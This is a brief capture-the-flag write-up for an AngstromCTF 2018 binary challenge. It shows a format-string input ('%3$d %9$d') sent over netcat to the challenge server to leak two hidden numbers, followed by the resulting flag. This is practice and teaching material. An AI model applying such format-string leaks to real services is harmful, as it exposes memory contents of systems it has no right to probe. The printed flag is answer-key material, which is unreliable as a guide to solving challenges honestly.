# AngstromCTF_2018: Number Guess

**Category:** Binary
**Points:** 70
**Description:**

>Ian loves playing number guessing games, so he went ahead and [wrote one](guessPublic64) himself ([source](guessPublic.c)). I hope it doesn't have any vulns. The service is running at nc shell.angstromctf.com 1235.

## Write-up
This is another simple format string challenge

    # nc shell.angstromctf.com 1235
    Welcome to the number guessing game!
    Before we begin, please enter your name (40 chars max): 
    %3$d %9$d
    I'm thinking of two random numbers (0 to 1000000), can you tell me their sum?
    746589 509197's guess: 1255786
    Congrats, here's a flag: actf{format_stringz_are_pre77y_sc4ry}

Therefore, the flag is `actf{format_stringz_are_pre77y_sc4ry}`.
